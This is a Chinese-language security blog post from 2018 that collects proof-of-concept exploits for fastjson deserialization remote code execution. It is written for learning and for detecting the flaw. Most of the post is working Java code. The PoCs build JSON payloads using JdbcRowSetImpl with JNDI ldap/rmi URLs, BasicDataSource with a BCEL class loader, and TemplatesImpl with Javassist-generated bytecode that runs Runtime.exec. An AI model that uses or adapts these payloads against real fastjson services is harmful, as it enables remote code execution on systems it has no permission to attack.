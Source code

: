 Title: Java反序列化漏洞学习实践七：fastjson反序列化PoC汇总
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4woo
Summary: 

### **0x0、说明**

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！



本文主要汇总大佬们的fastjson的各种PoC，并进行简单的说明，目的是梳理一下利用思路。

通过对Java反序列化知识的学习，可以大致知道命令执行链由至少2部分组成：

1. 具有代码执行能力的类，我们之前的文章【或[GitHub](https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E5%85%AD%EF%BC%9A%E7%B1%BB%E7%9A%84%E5%8A%A0%E8%BD%BD%E6%9C%BA%E5%88%B6%E5%92%8C%E6%81%B6%E6%84%8F%E7%B1%BB%E6%9E%84%E9%80%A0.md)】就是为了弄清楚这部分内容；
2. 能够触发代码执行的触发器（即特定的调用代码），比如恶意类EvilClass中，它的静态代码块，构造函数，自定义函数，实现的接口函数都能执行代码，但是他们的触发点各不相同。

静态代码会在类的初始化时触发--Class.forName()

构造函数会在类实例化时触发--newInstance()， new Evil()

自定义函数则在函数调用时触发---m.invoke(Class,para)



再比如，fastjson中漏洞可以利用Class.forName()，而Jackson的漏洞中，触发点则需要newInstance()。

### 0x1、基于com.sun.rowset.JdbcRowSetImpl的PoC1

该PoC需要使用JNDI，需要搭建web服务，RMI服务或LDAP服务，利用相对麻烦。但对于检测fastjson漏洞是否存在，这个却是最简单有效的（结合DNSlog）。利用这个方法，已经成功在公司业务和SRC中发现了接近20个漏洞。



```java
package fastjsonPoCs;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

/*
 * 基于JNDI的PoC,可用的JNDI服务器有RMI，ldap。
 * 
 */
public class PoC1JNDI {
	public static void main(String[] argv){
		String xx = payload();
	}
	
	public static String payload(){

		//JDK 8u121以后版本需要设置改系统变量
		System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
		//LADP
		String payload1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}";
		//RMI
		String payload2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/ref\",\"autoCommit\":true}";

		JSONObject.parseObject(payload2);
		JSON.parse(payload2);
		return payload2;
	}
}

```

以上poc共有三个触发点：静态代码块(Class.forName())、类实例化、和getObjectInstance()方法。



### 0x2、基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC2

这个PoC是漏洞利用时最方便的，它不需要依赖JNDI等服务，所有内容一个请求中搞定。

```java
package fastjsonPoCs;

import evilClass.*;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;

/*
 * 基于org.apache.tomcat.dbcp.dbcp.BasicDataSource的PoC，当然也可以说是基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC
 * 前者的主要作用是触发，也就是包含Class.forName()函数的逻辑(createConnectionFactory函数中)；后者是类加载器，可以解析特定格式的类byte[]。
 * 
 * 
 * org.apache.tomcat.dbcp.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-7.0.65.jar
 * org.apache.tomcat.dbcp.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-9.0.13.jar
 * org.apache.commons.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/commons-dbcp/commons-dbcp
 * org.apache.commons.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2
 * 
 * 主要参考：https://xz.aliyun.com/t/2272
 */
public class PoC2dbcp {
	public static void main(String[] argv){
		String xx = payload2();
	}
	
	public static String payload2() {
		//payload3:https://xz.aliyun.com/t/2272
		try {
			String payload2 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
			byte[] bytecode = createEvilClass.create("evil","calc");
			String classname = Utility.encode(bytecode,true);
			//System.out.println(classname);
			classname = "org.apache.log4j.spi$$BCEL$$"+classname;
			payload2 = payload2.replace("xxxxxxxxxx", classname);
			
//			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
//			Class.forName(classname, true, cls);
			JSONObject.parseObject(payload2);
			return payload2;
		} catch (Exception e) {
			e.printStackTrace();
			return null;
		}
	}
}
```



### 0x3、基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl的PoC3(来自廖新喜)



这个PoC有限制，需要引用程序是如下写法：

```
JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField)
```

在实际的环境中基本遇不到，但其中的思路还是值得学习的。

```java
package fastjsonPoCs;

import org.apache.commons.codec.binary.Base64;
import javassist.ClassPool;
import javassist.CtClass;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/*
 * 该poc来自于廖新喜大佬的文章：http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
 * 基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl，构造的恶意类需要是继承了AbstractTranslet的。
 */
public class PoC3TemplatesImpl {
	public static void main(String[] argv){
		String xx = payload3();
	}
	
	public static String payload3() {
		try {
			//http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
			String payload3 = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\", \"_bytecodes\": [\"xxxxxxxxxx\"], \"_name\": \"1111\", \"_tfactory\": { }, \"_outputProperties\":{ }}";
			byte[] bytecode1 = Gadget.createEvilBytecode("calc");
			String className = TemplatesImpl.class.getName();//com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
			payload3 = payload3.replace("xxxxxxxxxx", Base64.encodeBase64String(bytecode1));
			
			System.out.println(payload3);
			ParserConfig config = new ParserConfig();
			Object obj = JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField);
			
			return payload3;
		} catch (Exception e) {
			e.printStackTrace();
			return null;
		}
	}
}


class Gadget {

    public static class evil extends AbstractTranslet{
    	@Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    }

    static byte[] createEvilBytecode(final String command) throws Exception {
        ClassPool classPool = ClassPool.getDefault();

        // 获取class
        System.out.println("ClassName: " + evil.class.getName());
        final CtClass clazz = classPool.get(evil.class.getName());

        // 插入静态代码块，在代码末尾。
        clazz.makeClassInitializer().insertAfter(
                "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") + "\");"
        );
        clazz.setName("evilxxx");//类的名称，可以通过它修改。
        
        clazz.writeFile("D:\\");//将生成的.class文件保存到磁盘
        // 获取bytecodes
        final byte[] classBytes = clazz.toBytecode();
        return classBytes;
    }
}

```



### 0x4、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[基于JdbcRowSetImpl（JNDI）的Fastjson RCE PoC构造与分析（也就是不受限于SupportNonPublicField）](<http://xxlegend.com/2017/12/06/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90/>)

[fastjson 远程反序列化poc的构造和分析](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)

[vulhub漏洞环境](https://github.com/vulhub/vulhub/tree/master/fastjson/vuln)